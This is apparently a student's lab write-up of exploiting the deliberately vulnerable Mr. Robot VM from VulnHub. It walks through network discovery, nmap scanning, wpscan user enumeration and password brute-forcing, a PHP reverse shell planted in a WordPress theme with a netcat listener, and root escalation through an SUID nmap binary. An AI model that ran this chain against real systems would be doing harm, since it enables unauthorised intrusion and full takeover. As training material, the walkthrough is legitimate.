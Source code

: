 # 🧪 Hands-On Exploitation – Mr. Robot VM (Week 3 & 4)

This hands-on task focused on exploiting the vulnerable **Mr. Robot** VM from VulnHub using real-world techniques and achieving root access through privilege escalation.

---

## 🖥️ Target VM

* **Name:** Mr. Robot
* **Platform:** [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/)
* **Goal:** Gain root access

---

## ⚙️ Environment Setup

* **Kali Linux** (Attacker machine)
* **Mr. Robot VM** (Target machine)
* **VirtualBox Network Mode:** NAT Network 

---

## 🔍 Step 1: Network Setup

* Identified Kali IP using:

  ```bash
  ifconfig
  ```
* Discovered target VM using:

  ```bash
  netdiscover -r 10.0.2.0/24
  ```

---

## 🕵️ Step 2: Reconnaissance

* Scanned the Mr. Robot VM for open ports:

  ```bash
  nmap -sV -A -T4 10.0.2.7
  ```

* Discovered:

  ```
  PORT    STATE  SERVICE    VERSION
  80/tcp  open   http       Apache httpd
  443/tcp open   https      Apache httpd
  ```

---

## 🌐 Step 3: Website Enumeration

* Visited: `http://10.0.2.7`

* Ran `dirb` to find hidden directories:

  ```bash
  dirb http://10.0.2.7
  ```

* Discovered `/robots.txt` → Found:

  * `/fsocity.dic` → Wordlist
  * `/key-1-of-3.txt` → First flag

---

## 💣 Step 4: WordPress Exploitation

* Enumerated users with:

  ```bash
  wpscan --url http://10.0.2.7 --enumerate u
  ```

* Brute-forced login using:

  ```bash
  wpscan --url http://10.0.2.7 --usernames elliot --passwords fsocity.dic
  ```

* Credentials Found:

  * **Username:** elliot
  * **Password:** ER28-0652

* Logged into WordPress and uploaded a **PHP reverse shell** via 404.php:

  ```bash
  cp /usr/share/webshells/php/php-reverse-shell.php shell.php
  ```

* Set up listener:

  ```bash
  nc -lvnp 4444
  ```

* Triggered shell via browser:

  ```
  http://10.0.2.7/wp-content/themes/twentyfifteen/shell.php
  ```

---

## 🚀 Step 5: Privilege Escalation

* Found SUID binary:

  ```bash
  find / -perm -4000 2>/dev/null
  ```

* Exploited vulnerable `nmap` binary:

  ```bash
  nmap --interactive
  !sh
  ```

* ✅ Got **root shell** successfully.

![Mr.Robot Exploit Screenshot](Images/mr.robot_exploit.png)

---

## 🧠 Learnings

* Practiced full exploitation chain: **Recon → Exploit → Shell → Root**
* Understood the role of **wordlists, SUID bits, and manual enumeration**
* Used tools: `nmap`, `wpscan`, `dirb`, `netdiscover`, and `reverse shells`

---
